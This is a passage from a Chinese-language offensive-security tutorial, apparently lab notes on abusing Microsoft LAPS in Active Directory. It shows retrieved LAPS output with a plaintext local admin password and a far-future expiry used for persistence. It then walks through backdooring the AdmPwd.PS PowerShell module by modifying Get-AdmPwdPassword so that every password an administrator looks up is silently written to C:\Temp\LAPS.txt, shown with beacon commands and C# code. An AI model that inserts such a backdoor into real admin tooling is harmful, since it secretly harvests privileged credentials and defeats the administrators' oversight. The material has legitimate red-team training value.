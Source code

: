 ComputerName        : WKSTN-2
DistinguishedName   : CN=WKSTN-2,OU=Workstations,DC=dev,DC=cyberbotic,DC=io
Password            : P0OPwa4R64AkbJ
ExpirationTimestamp : 2/11/2338 11:05:23 AM
```

**如果管理员使用Reset-AdmPwdPassword cmdlet，或者在LAPS GPO中启用了 "不允许密码过期时间超过策略要求"，密码仍然会重置。**


# LAPS Backdoors

LAPS后门，主要通过修改PowerShell cmdlet里的方法，当管理员进行操作时，我们会得到一个密码的副本

查看PowerShell cmdlet所在文件夹
```
beacon> ls
[*] Listing: C:\Windows\System32\WindowsPowerShell\v1.0\Modules\AdmPwd.PS\

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     03/16/2021 17:09:59   en-US
 30kb     fil     09/23/2016 00:38:16   AdmPwd.PS.dll
 5kb      fil     08/23/2016 14:40:58   AdmPwd.PS.format.ps1xml
 4kb      fil     08/23/2016 14:40:58   AdmPwd.PS.psd1
 33kb     fil     09/22/2016 08:02:08   AdmPwd.Utils.dll
```

[源码](https://github.com/GreyCorbel/admpwd),查看```Get-AdmPwdPassword```这个方法，文件位置：```Main/AdmPwd.PS/Main.cs```
```
[Cmdlet("Get", "AdmPwdPassword")]
public class GetPassword : Cmdlet
{
    [Parameter(Mandatory = true, Position = 0, ValueFromPipeline = true)]
    public String ComputerName;

    protected override void ProcessRecord()
    {
        foreach (string dn in DirectoryUtils.GetComputerDN(ComputerName))
        {
            PasswordInfo pi = DirectoryUtils.GetPasswordInfo(dn);
            WriteObject(pi);
        }
    }
}v
```

添加以下后门代码
```
PasswordInfo pi = DirectoryUtils.GetPasswordInfo(dn);

var line = $"{pi.ComputerName} : {pi.Password}";
System.IO.File.AppendAllText(@"C:\Temp\LAPS.txt", line);
